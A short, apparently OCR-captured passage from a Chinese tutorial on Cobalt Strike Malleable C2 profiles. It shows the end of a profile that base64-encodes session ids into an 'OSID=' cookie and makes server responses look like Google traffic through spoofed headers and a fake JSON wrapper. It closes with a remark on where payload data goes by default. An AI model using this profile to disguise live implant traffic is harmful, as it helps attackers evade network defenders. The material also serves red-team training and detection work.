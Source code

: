 			id {
				base64;
				prepend "OSID=";
				header "Cookie";
	        }
	
			output{
				base64;
				print;
			}
		}
	
		server {
			header "X-Content-Type-Options" "nosniff";
			header "X-Frame-Options" "SAMEORIGIN";
			header "Cache-Control" "no-cache, no-store, max-age=0, must-revalidate";
			header "X-XSS-Protection" "1; mode=block";
			header "Server" "GSE";
	
			output {
	
				prepend "[[[\"apm\",\"";
	
				append "\"]";
				append ",[\"ci\",[]";
				append "]";
				append ",[\"cm\",[]";
				append ",[]";
				append "]";
				append "],'dbb8796a80d45e1f']";
	
				print;
			}	
		}
	}


没指定payload的参数，则默认在post请求体里：

![](images2/6.jpg)
